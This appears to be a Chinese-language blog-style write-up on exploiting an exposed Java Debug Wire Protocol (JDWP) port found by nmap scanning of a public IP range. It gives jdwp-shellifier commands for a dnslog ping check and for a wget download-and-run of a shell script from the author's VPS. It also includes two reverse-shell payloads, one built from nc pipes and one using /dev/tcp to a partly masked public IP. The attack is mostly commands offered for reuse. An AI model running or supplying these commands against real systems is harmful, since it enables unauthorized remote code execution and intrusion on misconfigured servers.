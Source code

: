 ### 坑点总结：
1、漏洞利用时需考虑目标上是否存在反弹shell的程序

nmap扫描某ip的C段，用时大概19h，对识别到的指纹信息依次查看，查看到如下信息
```
5005/tcp  open  jdwp       Java Debug Wire Protocol (Reference Implementation) version 1.8 1.8.0_191
|_jdwp-info: ERROR: Script execution failed (use -d to debug)
```
之前复现过JDWP的漏洞，故有此文

### 0x01 简单验证
telnet 106.53.xx.xx 5005  
返回JDWP-Handshake，即表示存在漏洞  
我这边没有返回JDWP-Handshake，不管它，继续尝试利用  
### 0x02 dnslog测试
1、先打个dnslog试试水  
POC下载地址：https://github.com/IOActive/jdwp-shellifier  
执行如下命令  
```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xx.dnslog.cn"
```
dnslog平台成功收到回显，感觉有戏  
### 0x03 尝试反弹shell  
将如下内容保存为shell.txt，放置到vps下，并通过python3开启一个临时的http服务器
```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```
开启监听，需要开启2个监听，前面一个输入执行命令，后面一个输出命令执行结果
```
这里要注意，阿里云的vps开启nc监听，需要加个选项n，否则会报错

nc -lnvvp 3333
nc -lnvvp 4444
```
利用POC执行下载shell、对文件赋予可执行权限、执行shell
```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```
成功执行完，vps上并没有收到反弹回来的shell  
思考了一下，payload中使用nc连接vps，目标可能不存在nc，改用sh，修改shell.txt为如下
```
sh -i >& /dev/tcp/101.200.xx.xx/3333 0>&1 | /bin/sh | sh -i >& /dev/tcp/101.200.xx.xx/4444 0>&1%
```
成功接收到反弹shell，如下图  
![image](./pic/1.png)

参考链接：  
https://blog.csdn.net/weixin_43486390/article/details/114259762  
